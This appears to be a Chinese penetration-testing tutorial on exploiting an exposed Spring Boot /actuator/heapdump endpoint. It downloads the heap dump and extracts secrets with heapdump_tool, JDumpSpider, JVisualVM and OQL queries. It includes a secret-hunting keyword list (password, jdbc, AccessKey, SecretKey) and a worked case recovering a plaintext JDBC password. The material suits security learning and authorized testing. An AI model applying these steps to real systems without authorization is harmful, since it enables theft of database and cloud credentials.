





> `Heapdump`，即堆转储文件，是一个Java进程在某个时间点上的内存快照。`HeapDump`记录了JVM中堆内存运行的情况，保存了Java对象、类以及线程栈以及本地变量等信息。

- 路径：`/actuator/heapdump`
- 工具：
   - [https://github.com/wyzxxz/heapdump_tool](https://github.com/wyzxxz/heapdump_tool)
   - [https://github.com/whwlsfb/JDumpSpider](https://github.com/whwlsfb/JDumpSpider)

```shell
# heapdump_tool
$ java -jar heapdump_tool.jar <heapdump-file>
# 选择模式
> 0,不加载文件,速度较快但精度较低,不能用某些条件
> 1,加载文件,需要花几分钟加载,可以查询heapdump中所有的数据

# 关键字查询
> password
> secret

# 获取字符串中的URL/File/IP
> geturl
> getfile
> getip

# 设置字符长度
> len=10     # 获取长度为10的所有key或者value值

# 获取指定顺序
> num=1-100  # 获取顺序1-100的字符

# 默认不输出查询结果非key-value格式的数据
> all=true   # 获取所有值

# JDumpSpider
$ java -jar JDumpSpider.jar <heapdump-file>

```

## 利用方式
0、直接使用`heapdump_tool.jar`查询关键字

```bash
password
redis.server
redis.cache
jdbc
AccessKey
SecretKey
mysql
oracle
```

1、使用JDK自带工具`jvisualvm`打开该文件。(该工具在`<JDK_HOME>/bin`目录下，Windows为`jvisualvm.exe`)
2、打开文件后已经可以看到部分敏感信息泄露
3、点击“类”，搜索`Hashtable`
4、点击进入`Hashtable$Entry`，寻找敏感信息

```sql
# 部分ODL查询语句
# 模糊查询
select * from java.lang.String s where toString(s) LIKE ".*SESSION*."

# 查询字符串是否在Key中,返回实例ID
select s from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())  

# 查询字符串是否在Key中,返回Key全部内容
select s.key.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())

# 查询字符串是否在Key中,返回Value的内容
select s.value.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())

# 查询字符串是否在Value中,返回Value全部内容
select s.value.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.value.toString())

```


## 实战案例

- 通过浏览器访问对应路径将`heapdump`文件进行下载


- 然后使用JDK自带工具`JVisualVM`工具对其进行分析，该工具在`<JDK_HOME>/bin/`目录下。
   - `JVisualVM`是一个监视，故障排除工具
   - 也可以使用`Eclipse MAT`对其进行分析
      - 参考：[Java内存泄漏分析系列之六：JVM Heap Dump（堆转储文件）的生成和MAT的使用](https://www.cnblogs.com/wyb628/p/8567610.html)



- 其实通过`JVisualVM`加载`heapdump`文件时，已经可以看到部分敏感信息泄露



- 打开后进入ODL控制台，输入如下语句，点击执行进行查询

```shell
select s.value.toString() from java.util.Hashtable$Entry s where /password/.test(s.key.toString())

```

- 也可以点击"类"，搜索`Hashtable`，然后点击进入第一个`java.util.Hashtable$Entry`





- 通过对左侧实例进行观察，这里发现了JDBC明文密码以及路径




- 打完收工，整理报告，提交审核。

## 参考

- [Springboot之actuator配置不当的漏洞利用](https://www.freebuf.com/news/193509.html)
- [Java内存泄漏分析系列之六：JVM Heap Dump（堆转储文件）的生成和MAT的使用](https://www.cnblogs.com/wyb628/p/8567610.html)
- [Springboot 获取被星号脱敏的密码的明文の方法四-测试](http://vulsee.com/archives/vulsee_2020/0807_11841.html)
